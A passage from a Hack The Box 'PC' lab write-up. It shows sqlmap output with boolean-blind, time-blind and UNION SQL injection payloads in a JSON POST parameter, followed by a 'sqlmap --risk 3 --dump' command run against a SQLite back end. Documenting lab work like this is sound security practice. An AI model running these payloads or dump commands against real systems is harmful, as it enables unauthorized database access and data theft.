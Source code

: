 ```
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: {"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoibTQ3NyIsImV4cCI6MTY4NjYyNzUyOX0.wVgbdMKg8T4CsE8qAMqSFnOUIy0K9rwg0sPjSO2LT7g"}],"data":[{"id":"-1425 OR 9629=9629"}]}

    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: {"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoibTQ3NyIsImV4cCI6MTY4NjYyNzUyOX0.wVgbdMKg8T4CsE8qAMqSFnOUIy0K9rwg0sPjSO2LT7g"}],"data":[{"id":"488 OR 4805=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))"}]}

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: {"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoibTQ3NyIsImV4cCI6MTY4NjYyNzUyOX0.wVgbdMKg8T4CsE8qAMqSFnOUIy0K9rwg0sPjSO2LT7g"}],"data":[{"id":"488 UNION ALL SELECT CHAR(113,118,106,118,113)||CHAR(102,103,88,105,80,83,65,89,68,87,107,70,78,107,89,81,74,118,78,111,105,117,78,97,106,97,84,73,84,113,69,106,111,116,85,74,112,111,70,103)||CHAR(113,120,118,113,113)-- ashJ"}]}
---
[10:45:06] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[10:45:06] [INFO] fetched data logged to text files under '/home/matt/.local/share/sqlmap/output/127.0.0.1'

[*] ending @ 10:45:06 /2023-06-13/

```
Executing SQLMap with the '-r' flag followed by the saved POST request file specifies we will be using the request file. In the results we can see that "(custom) POST parameter 'JSON #1*' is vulnerable." meaning we can proceed to dump the tables from the database.  
 
```
┌──(matt㉿HackTheBoxKali)-[~/Pc]
└─$ sqlmap -r request.txt --batch --risk 3 --dump
       __H__                                                                                                                               
 ___ ___[,]_____ ___ ___{1.7.6.3#dev}                                                                                                
|_ -| . [.]     | .'| . |                                                                                                                  
|___|_  ["]_|_|_|__,|  _|                                                                                                            
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                                                  

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:46:11 /2023-06-13/

[10:46:11] [INFO] parsing HTTP request from 'request.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
JSON data found in POST body. Do you want to process it? [Y/n/q] Y
Cookie parameter '_grpcui_csrf_token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] N
[10:46:12] [INFO] resuming back-end DBMS 'sqlite' 
[10:46:12] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON #1* ((custom) POST)
    Type: boolean-based blind
```

[//]: # (Project: HTB Machine Writeups - Generated with Python3)  
[//]: # (Title: HTB PC Writeup)  
[//]: # (Author: M4773L)  
[//]: # (Date: 16/06/2023 - 08:19 PM)  
[//]: # (Date_Modified: ) 
[//]: # (WEBSITE_URL: http://m4773l.github.io)
[//]: # (GITHUB_REPO_URL: https://github.com/M4773L)